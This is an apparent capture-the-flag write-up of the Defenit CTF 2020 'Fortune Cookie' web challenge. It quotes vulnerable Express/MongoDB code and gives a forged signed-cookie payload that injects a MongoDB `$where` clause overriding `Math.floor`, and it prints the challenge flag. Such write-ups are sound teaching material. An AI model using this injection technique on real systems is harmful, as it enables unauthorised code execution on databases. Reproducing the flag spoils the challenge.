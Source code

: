 # Fortune Cookie  
*Defenit CTF 2020 - Web 507  
  
*Writeup by Payload as ToEatSushi*

## Problem

Here's a test of luck!  
What's your fortune today?

## Look up

```javascript  
app.get('/flag', (req, res) => {

   let { favoriteNumber } = req.query;  
   favoriteNumber = ~~favoriteNumber;

   if (!favoriteNumber) {  
       res.send('Please Input your favorite number ?삃');  
   } else {

       const client = new MongoClient(MONGO_URL, { useNewUrlParser: true });

       client.connect(function (err) {

           if (err) throw err;

           const db = client.db('fortuneCookie');  
           const collection = db.collection('posts');

           collection.findOne({ $where: `Math.floor(Math.random() * 0xdeaaaadbeef) === ${favoriteNumber}` })  
               .then(result => {  
                   if (favoriteNumber > 0x1337 && result) res.end(FLAG);  
                   else res.end('Number not matches. Next chance, please!')  
               });

           client.close();

       });  
   }  
})  
```

To get flag, we have to pass lottery based on Math.floor. If I have a huge
luck, I could pass at once, but I'm not.

Since we know the secret value for signing cookie, we can make every structure
in `req.signedCookies`.

```javascript  
app.get('/posts', (req, res) => {

   let client = new MongoClient(MONGO_URL, { useNewUrlParser: true });  
   let author = req.signedCookies.user;

   if (typeof author === 'string') {  
       author = { author };  
   }

   client.connect(function (err) {

       if (err) throw err;

       const db = client.db('fortuneCookie');  
       const collection = db.collection('posts');

       collection  
           .find(author)  
           .toArray()  
           .then((posts) => {  
               res.render('posts', { posts })  
           }  
           );

       client.close();

   });

});  
```

One more intersting point is `req.signedCookies.user` is given as object in
`collection.find()`. When we give `$where` key for `user`, then javascript
code will be evaluated.

## Race!

After `/posts` has a vulnerability, further steps are easy. Build a javascript
code that overrided `Math.floor`, and make a race condition. It's all

## Exploitation

1. Make cookie that includes a javascript code overwrites `Math.floor` in `$where`  
2. Pray for race condition

## Payload

To make cookie,  
```javascript  
const express = require("express");  
const cookieParser = require("cookie-parser");

const app = express();

app.use(cookieParser('?' + '?'));  
app.use(express.urlencoded());

app.get('/test', (req, res) => {  
       res.cookie('user', {author: 'maratang', $where: 'Math.floor = function(x) { return 5000; }; return 1 == 2;'}, {signed: true});  
       res.send('');  
});  
```

**`Defenit{c0n9r47ula7i0n5_0n_y0u2_9o0d_f02tun3_haHa}`**  

Original writeup (https://github.com/mdsnins/ctf-
writeups/blob/master/2020/Defenit%20CTF/Fortune%20Cookie/fortune_cookie.md).